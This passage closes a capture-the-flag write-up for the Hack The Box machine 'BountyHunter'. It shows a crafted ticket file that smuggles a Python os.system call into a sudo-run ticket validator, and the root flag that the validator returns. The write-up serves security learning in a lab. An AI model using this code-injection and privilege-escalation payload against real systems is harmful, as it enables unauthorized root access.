 The whoami command is executed and it returns root. The code injection test is successful. Let's refactor the ticket to cat our root flag:
```text
development@bountyhunter:/tmp$ cat payload.md
# Skytrain Inc
## Ticket to pwntown
__Ticket Code:__
**186+1==187 and __import__('os').system('cat /root/root.txt') == True
```
Rerun the ticket validator script:
```text
development@bountyhunter:/opt/skytrain_inc$ sudo /usr/bin/python3.8 /opt/skytrain_inc/ticketValidator.py
Please enter the path to the ticket file.
/tmp/payload.md
Destination: pwntown
e2c32dfa78e8b578d628c---truncated
```

We retrieve the root flag which proves root access. That wraps up this machine.

[1]: https://app.hackthebox.com/users/280547
[2]: https://www.hackthebox.eu